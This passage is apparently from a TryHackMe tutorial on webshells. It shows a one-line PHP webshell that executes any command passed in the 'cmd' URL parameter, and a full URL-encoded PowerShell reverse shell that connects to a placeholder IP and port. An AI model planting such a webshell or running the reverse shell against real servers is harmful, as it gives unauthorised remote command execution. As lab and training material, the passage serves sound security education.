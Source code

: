 There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a _webshell_. See the [Upload Vulnerabilities Room](https://tryhackme.com/room/uploadvulns) for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

![](https://i.imgur.com/W19gHwL.png)

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.